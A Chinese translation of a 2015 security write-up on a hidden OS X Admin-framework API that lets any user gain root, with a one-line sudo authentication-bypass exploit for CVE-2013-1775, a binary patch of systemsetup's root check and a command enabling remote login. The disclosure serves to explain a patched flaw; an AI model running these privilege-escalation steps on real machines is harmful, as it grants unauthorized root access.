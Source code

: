 # Apple OS X系统中存在可以提升root权限的API后门

from:https://truesecdev.wordpress.com/2015/04/09/hidden-backdoor-api-to-root-privileges-in-apple-os-x/

0x00 摘要
=====

Apple OS X系统中的Admin框架存在可以提升root权限的API后门，并且已经存在多年（至少是从2011年开始）。我是在2014年的10月发现他可以被用来已任何用户权限提升为root权限，其本意可能是要服务“System Preferences”和systemsetup（命令行工具），但是所有的用户进程可以使用相同的功能。

苹果刚刚发布了OS X 10.10.3解决了此问题，但是OS X 10.9.x以及之前的版本存在此问题，因为苹果决定不对这些版本进行修复了。我们建议所有的用户都升级到10.10.3。

0x01 demo
=====

我使用的第一个exp是基于CVE-2013-1775的，一个sudo认证绕过bug，这个bug已经在10.8.5（2013年9月）修复了。

exp代码非常的简单：

```
$ sudo -k;systemsetup -setusingnetworktime Off -settimezone GMT -setdate 01:01:1970 -settime 00:00;sudo su

```

我跟我同事Philip Åkesson聊这个exp代码实际上使用了systemsetup来修改系统时间。我们一起来看了下他修复的细节，原来除了修复了sudo，Apple也同时做了另外一件事情，他们把systemsetup设置为需要root权限，当以非root权限执行systemsetup的时候，下面的信息就会显示（在10.8.5以及之后版本）：

```
$ systemsetup
You need administrator access to run this tool... exiting!

```

这个消息其实是有点误导的，以为我们实际上是在以管理员权限运行，安装OS X时候创建的用户默认就是admin权限。

总之，上面的消息表明执行该命令需要root权限，通过Hopper反汇编发现了下面的代码

![enter image description here](http://drops.javaweb.org/uploads/images/8174cf436acde03ed1a19e8349afdeb4df92c081.jpg)

OK，所以systemsetup二进制文件只是简单的检查了是否是root权限。

修改了一下函数（用setne替代sete）：取得了成功

```
$ systemsetup
> systemsetup
> type -help for help.

```

到目前为止，我们只是回到之前的systemsetup（10.8.5之前），你可以用systemsetup执行命令的一个例子：

```
$ systemsetup –setremotelogin on

```
